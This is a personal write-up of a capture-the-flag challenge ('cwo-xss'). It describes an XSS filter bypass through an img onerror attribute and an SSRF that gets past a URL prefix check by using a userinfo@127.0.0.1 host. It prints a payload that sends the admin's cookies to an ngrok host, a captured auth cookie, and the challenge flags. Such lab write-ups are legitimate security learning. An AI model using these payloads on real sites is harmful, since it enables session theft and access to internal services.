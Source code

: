 # Notes

This challenge provides a URL to visit. Looking at the page, it has a video that is playing and a chat window to communicate with the admin.

Two things I notice off the bat:
* There embedded video is loaded from a path which takes a URL as a parameter for the file to display. This might be susceptible to a path vulnerability like `../../../../etc/passwd` or similar.
* The chat window displays any text I enter to it, so it might be vulnerable to reflected XSS (although that would require reading in the input from the URL itself, so it's unlikely).

Trying some basic stuff with the video embed path, it appears to require a URL which has `http://cwo-xss.web.ctfcompetition.com`. Not sure if this is vulnerable or not. Maybe I can get it to load a non-video file, or maybe the URL-checking code is vulnerable so I can provide a different path which happens to include the valid domain name in a way that makes it ignored (and only the path part is used).

There are also two javascript files to check out:
* `static/js/main.js`
* `static/js/admin.js`

The `admin.js` file appears to be empty, and I can't get content to load by passing it to the `/watch` path (the video embed thing). However, `main.js` does some basic string concatenation to build HTML for insertion into the page, which is usually the sign of an XSS vulnerability.

A basic attempt at XSS triggered a "HACKER ALERT!" message from the chat system's POST response, so there's some input checking server-side. It might be something that can be subverted, however. The `script` tag appears to trigger the filter, but other HTML tags do not.

(the next day)

I thought I had found an XSS attack vector, with a similar mechanic to the earlier XSS challenge (gov-xss). The admin chat panel has some layer of XSS protection, but going through the [OWASP XSS evasion cheat sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) I found that the first example under "Non-alpha non-digit XSS" passed through the filter.

Unfortunately, after crafting a `script` tag attack which loaded a JS to redirect the browser w/ cookie data in the query parameters, it looks like the exploit JS is not being executed by the admin's browser. There definitely /is/ an admin browser, however because if I do a (non-exploit) image tag, both my browser and the admin's load it.

Maybe it's actually a result of my client redirecing away that prevents the server from also executing the JS? That seems... unlikely. Nope, I tried just doing `fetch` instead of `document.location` and it still didn't make the request.

Doing some more research, there's a possible XSS when you only have access to get a target browser to load an image file. This is possible because the GIF header is entirely ASCII through the width field, so you can craft a file which is both a valid GIF and valid JS, using comment characters in the width field.

I tried that and it didn't seem to trigger any JS to run (either from an `img` tag or a `script` tag). However, I noticed that when I had the previously-working `script` tag attack load a source that was not a `.js` file (the GIF), the admin machine *did* request that file.

Perhaps I can just send it some JS directly and rename the file, or change the `Content-Type` response header and trick it into loading it.

False alarm, I guess. I wasn't able to get it to happen again so maybe I was mistaking the request log entry with one from when I tried an `img` tag.

Okay, I made this harder than it needed to be... I had verified that `onload` and `onmouseover` event attributes were filtered out, and then assumed other ones were as well. Never assume :)

It turns out the `onerror` event was not filtered out, so I was able to craft a pretty straight-forward `img` tag-based XSS attack:
```
<img src="x:x" onerror="document.location='http://xxxxxxxx.ngrok.io/exploit?cookie='+encodeURI(document.cookie);" />
```

This caused the admin computer to request the provided URL and include their cookies, which had the flag:
```
CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}
```

There was also an `auth` cookie, which I added to my own browser:
```
TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
```

When requesting the root path with this cookie, the page included a link to the `/admin` path. I was able to access the admin control panel. After poking around a bit, I was not able to see anything obvious to attack. I might need to come back to this later.

... weeks later ...

I was watching Gynvael's livestream where he went through all of the Beginners Quest flags. When he got to this challenge he decided to go for the additional flag, and mentioned possibly using SSRF on the admin controls page (https://cwo-xss.web.ctfcompetition.com/admin/controls). I tried the most obvious thing first, which was to use the video embed thing mentioned earlier: https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com/admin/controls .

Unfortunately that did not work because the admin controls page is coded to reject any requests not coming from 127.0.0.1 (from the server's viewpoint). Thinking about it some more, I figured maybe there was something that could be circumvented in the URL-checking code for the video embed endpoint.

To reiterate from above... if I try the most direct route: https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://127.0.0.1/admin/controls the `/watch` endpoint will fail because it only accepts a `livestream` paramter for URLs to `http://cwo-xss.web.ctfcompetition.com`. I figured, maybe the way they're checking that is not sufficient, so I did a quick test: https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.combo

This returned a Squid error page from a failed DNS to the domain `cwo-xss.web.ctfcompetition.combo`. Since that's not a valid TLD, the DNS lookup will very likely fail, and it did. The important thing, however, is that I got a different error from the URL-checking error. This means that the server's code to validate the `livestream` parameter is something like a regex for `/^https?://cwo-xss.web.ctfcompetition.com/` to verify that the URL begins with that literal string.

However the tricky thing about URL parsing is that the bit that follows the scheme and `://` separator, is not necesssarily the host address. In the full URL format specification, what can optionally precede the host address, is the username (and optionally password) followed by an `@` separator. This means that I could craft a URL which starts with the string being checked for, but which actually uses `127.0.0.1` as the host address, and since the server itself is making the request, that host IP address will resolve to the same web server and it will actually make the request.

In the end, the URL I went with was: https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls

This caused the `/watch` endpoint to return the admin controls page, which had the second flag:
```
CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}
```

